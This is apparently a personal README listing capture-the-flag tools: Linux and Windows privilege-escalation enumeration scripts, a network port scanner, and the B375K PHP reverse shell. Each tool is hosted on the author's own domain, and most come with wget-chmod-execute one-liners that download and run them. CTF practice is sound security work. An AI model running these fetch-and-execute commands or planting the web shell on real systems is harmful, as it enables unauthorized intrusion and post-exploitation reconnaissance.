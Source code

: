 # tools

My most used tools for CTF:

# Linpeas
Linpeas is an automated tool for Linux enumaration.
> [linpeas.sh](https://tools.ntaheij.dev/linpeas.sh)
```sh
wget "https://tools.ntaheij.dev/linpeas.sh" -O linpeas.sh; chmod 700 linpeas.sh; ./linpeas.sh
```

# Winpeas
Winpeas is an automated tool for Windows enumaration.
> [winpeas.bat](https://tools.ntaheij.dev/winpeas.bat)

> [winpeas.exe](https://tools.ntaheij.dev/winpeas.exe)

# Linenum
Linenum is an automated tool for Linux enumaration.
> [linenum.sh](https://tools.ntaheij.dev/linenum.sh)
```sh
wget "https://tools.ntaheij.dev/linenum.sh" -O linenum.sh; chmod 700 linenum.sh; ./linenum.sh
```

# Linux Smart Enumaration
Linux Smart Enumaration is an automated tool for Linux enumaration.
> [lse.sh](https://tools.ntaheij.dev/lse.sh)
```sh
wget "https://tools.ntaheij.dev/lse.sh" -O lse.sh; chmod 700 lse.sh; ./lse.sh
```

# B375K
B375K is a multi-purpose php reverse shell.
> [b375k.php](https://tools.ntaheij.dev/b375k.php)
```sh
wget "https://tools.ntaheij.dev/b375k.php" -O b375k.php
```

# Scanner
Scanner is a tool to scan your network for computers with open ports.
> [scanner.py](https://tools.ntaheij.dev/scanner.py)
```sh
wget "https://tools.ntaheij.dev/scanner.py" -O scanner.py; chmod 700 scanner.py; ./scanner.py
```